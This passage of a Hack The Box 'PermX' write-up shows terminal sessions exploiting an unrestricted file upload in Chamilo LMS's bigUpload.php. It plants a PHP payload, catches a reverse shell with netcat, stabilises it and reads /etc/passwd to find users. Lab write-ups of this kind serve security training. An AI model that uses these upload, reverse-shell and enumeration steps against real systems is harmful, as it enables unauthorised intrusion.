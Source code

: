 ```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/PermX/files]
└─$ curl -F 'bigUploadFile=@rce.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
The file has successfully been uploaded.
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/PermX/files]
└─$ curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce.php'
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/PermX/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.221.151 - - [06/Jul/2024 15:47:44] "GET /x HTTP/1.1" 200 -
```

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.66] from (UNKNOWN) [10.129.221.151] 52984
bash: cannot set terminal process group (1139): Inappropriate ioctl for device
bash: no job control in this shell
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$
```

## Shell Stabilization

Since we got a shell as `www-data`, stabilizing our shell was business as usual.

```c
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<les$ python3 -c 'import pty;pty.spawn("/bin/bash")'                     
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ ^Z
zsh: suspended  nc -lnvp 9001
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ stty raw -echo;fg
[1]  + continued  nc -lnvp 9001

www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ 
<milo/main/inc/lib/javascript/bigupload/files$ export XTERM=xterm            
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$
```

## Enumeration

A quick enumeration revealed a new user called `mtz`.

```c
www-data@permx:/var/www$ cat /etc/passwd | grep '/bin/bash'
root:x:0:0:root:/root:/bin/bash
mtz:x:1000:1000:mtz:/home/mtz:/bin/bash
```
